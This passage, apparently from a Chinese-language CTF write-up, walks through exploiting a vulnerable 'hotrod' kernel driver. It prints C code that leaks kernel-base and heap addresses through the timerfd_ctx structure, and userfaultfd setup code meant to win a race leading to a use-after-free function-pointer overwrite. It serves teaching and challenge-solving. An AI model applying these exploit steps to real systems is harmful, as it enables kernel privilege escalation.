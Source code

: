 偏移`0x00`处就是`timerfd_ctx`结构体的堆地址；偏移`0x18`处是`timerqueue_node.expires`，偏移`0x20`处是`htimer._softexpires`，其中timerqueue_node用于表示一个hrtimer节点，它在标准红黑树节点rb_node的基础上增加了expires字段，该字段和hrtimer中的*softexpires字段一起，设定了hrtimer的到期时间的一个范围，hrtimer可以在hrtimer.*softexpires至timerqueue_node.expires之间的任何时刻到期，我们也称timerqueue_node.expires为硬过期时间(hard)。

偏移`0x28`的值是一个默认的定时器处理函数`timerfd_tmrproc`，多次验证，它与Kernel加载基地址偏移固定`0x102a00`。

泄漏代码：

```c
	unsigned char* buffer = NULL;
	buffer = malloc(0x100);
	memset(buffer, 0, 0x100);

	unsigned long leak, kernel_addr, heap_addr;
	open_hotrod();
	create_timer(1);

	hotrod_alloc(0xf0);
	hotrod_show(0xf0, buffer);


	leak = ((unsigned long*)(buffer))[0x5];
	kernel_addr = leak - 0x102a00;
	heap_addr = ((unsigned long*)buffer)[0x0];

	printf("[*] Leak kernel_address: 0x%lx\n", kernel_addr);
	printf("[*] Leak heap_address: 0x%lx\n", heap_addr);
```

泄漏之后，需要利用条件竞争造成UAF，覆写`timerfd_ctx` 结构里的函数指针，为了提高条件竞争利用成功的概率，可以借助`userfaultfd`，使得PageFault交由UserSpace处理。	

##### 条件竞争-Userfaultfd

初始化`userfaultfd`

```c
unsigned long register_userfault(unsigned long fault_page, unsigned long fault_page_length)
{

	struct uffdio_api uapi;
	struct uffdio_register ur;

	// 1. create a userfaultfd
	unsigned long uffd = syscall(__NR_userfaultfd, O_CLOEXEC | O_NONBLOCK);
	uapi.api = UFFD_API;
	uapi.features = 0;

	if (ioctl(uffd, UFFDIO_API, &uapi) == -1)
	    errExit("ioctl-UFFDIO_API");

	// 2. register memory area
	ur.range.start = fault_page;
	ur.range.len = fault_page_length;
	ur.mode = UFFDIO_REGISTER_MODE_MISSING;
	if(ioctl(uffd, UFFDIO_REGISTER, &ur) == -1)
		errExit("ioctl-UFFDIO_REGISTER");

	return uffd;
}
```
